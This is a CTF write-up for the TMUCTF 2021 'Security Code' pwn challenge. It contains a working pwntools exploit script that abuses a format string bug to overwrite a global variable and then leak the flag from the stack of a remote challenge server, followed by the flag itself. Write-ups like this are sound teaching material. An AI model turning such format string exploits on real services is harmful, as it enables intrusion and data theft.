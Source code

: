 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
This challenge has two steps. Both of them are `format string` vulnerabilities.  
In the first step, you have to overwrite the value of the `security_code` global variable. In the second step, you have to read the stack to leak the flag. 
Here is the full script (also available in [solve.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Security%20Code/Writeup%20Files/solve.py)):   
```python
import pwn
import time

i = 6
l = []
while(i != 30):
	r = pwn.remote('185.235.41.205', 7040)
	r.recvlines(11)
	r.sendline('A')
	r.recvline()
	w = {0x0804c03c:0xabadcafe}
	pay = pwn.fmtstr_payload(15, w)
	r.sendline(pay)
	r.recvline()
	r.recvline()	
	p = "%" + str(i) + "$p"
	r.sendline(p)
	adminPass = r.recvlines(3)[2].split(" ")[-1]
	l.append(adminPass)
	try:
		print(pwn.p32(int(adminPass, 16)))
	except:
		pass
	i = i + 1

pl = []
for k in l[6:21]:
	try:
		pl.append(pwn.p32(int(k, 16)))
	except Exception as e:
		pass
	
print("".join(pl))
```   
The flag:   
```
TMUCTF{50_y0u_kn0w_50m37h1n6_4b0u7_f0rm47_57r1n6_0xf7e11340}
```  
